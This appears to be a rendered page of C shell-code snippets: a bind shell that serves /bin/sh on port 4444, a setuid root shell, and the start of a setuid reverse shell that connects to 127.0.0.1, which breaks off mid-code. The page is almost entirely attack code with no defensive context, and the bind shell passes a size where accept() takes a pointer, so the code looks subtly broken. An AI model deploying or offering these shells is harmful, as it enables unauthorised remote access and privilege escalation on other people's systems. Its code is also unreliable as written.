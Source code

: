 #### Bind Shell

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main() {
    int sockfd, clientfd;
    struct sockaddr_in server, client;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    server.sin_family = AF_INET;
    server.sin_port = htons(4444);
    server.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&server, sizeof(server));
    listen(sockfd, 0);

    clientfd = accept(sockfd, (struct sockaddr *)&client, sizeof(client));
    dup2(clientfd, 0);
    dup2(clientfd, 1);
    dup2(clientfd, 2);

    execve("/bin/sh", NULL, NULL);

    return 0;
}
```

#### Setuid Shell

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("/bin/sh");
    return 0;
}
```

#### Setuid Reverse Shell

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main() {
    int sockfd;
    struct sockaddr_in server;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    server.sin_family = AF_INET;
    server.sin_port = htons(4444);
    server.sin_addr.s_addr = inet_addr("127.0.0.1");

```